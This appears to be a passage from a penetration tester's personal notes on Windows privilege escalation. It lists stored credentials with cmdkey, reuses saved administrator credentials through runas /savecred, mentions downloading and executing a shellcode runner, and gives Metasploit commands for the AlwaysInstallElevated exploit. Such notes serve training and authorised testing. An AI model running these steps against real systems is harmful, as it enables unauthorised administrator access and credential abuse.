 ```ad-note
___

___

*Stored Credentials (Credential Manager)*

~~~powershell
cmdkey /list
~~~

*Example*:
![[Pasted image 20240428140923.png]]

> Testing credentials. If this works, maybe use IEX pointing to a shellcode runner or download and execute a shellcode runner.

~~~powershell
runas /env /noprofile /savecred /user:DOMAIN/HOST\administrator "cmd.exe /c whoami > C:\temp\whoami.txt"
~~~

*Screenshot*
___

___
```


## Privilege Escalation

```ad-seealso
title: Internal Privilege Escalation Notes
collapse:yes

~~~dataview
list from #windows 
and #privilegeescalation 
~~~
- [[03 - Content/Cert/CRTE/AD Privilege Escalation - Local Privilege Escalation|Local Privilege Escalation Cheatsheet]]
- Vulnerable Applications
- Vulnerable Kernel
```

```ad-seealso
title:AlwaysInstallElevated Privilege Escalation (Meterpreter)
collapse:yes

First *start a meterpreter listener* and run as job "run -j"

> Remember to use the correct session number before the following command

~~~bash
use exploit/windows/local/always_install_elevated
~~~

~~~bash
set VERBOSE true
~~~

~~~bash
set payload windows/exec
~~~

~~~bash
set session 1
~~~
```